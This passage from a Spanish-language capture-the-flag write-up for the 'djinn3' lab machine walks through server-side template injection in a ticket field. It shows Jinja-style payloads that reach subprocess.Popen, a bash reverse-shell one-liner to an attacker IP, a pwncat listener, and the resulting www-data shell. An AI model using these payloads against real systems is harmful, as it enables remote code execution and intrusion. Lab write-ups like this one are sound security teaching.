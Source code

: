 Al ejecutarlo...
```console
python3 find_popen.py
El índice de 'subprocess.Popen' es: 400
```

Ahora podemos utilizar la clase y intentar ejecutar un comando a nivel de sistema.
```console
> open
Title: rce3
Description: {{ dict.__base__.__subclasses__()[400]('ping -c 1 192.168.18.132',shell=True,stdout=-1).communicate()[0].strip() }}
```

Y si ingresamos al Ticket creado, vemos que conseguimos ejecutar este comando...
![Write-up Image](images/Screenshot_14.png)

Ahora nos vamos a mandar una reverse shell utilizando el típico one-liner.
```console
> open
Title: rce4
Description: {{ dict.__base__.__subclasses__()[400]('bash -c "bash -i >& /dev/tcp/192.168.18.132/443 0>&1" ',shell=True,stdout=-1).communicate()[0].strip() }}
```

Nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Ahora abrimos el ticket....
![Write-up Image](images/Screenshot_15.png)

Y conseguimos una shell en la máquina víctima.
```console
(remote) www-data@djinn3:/opt/.web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
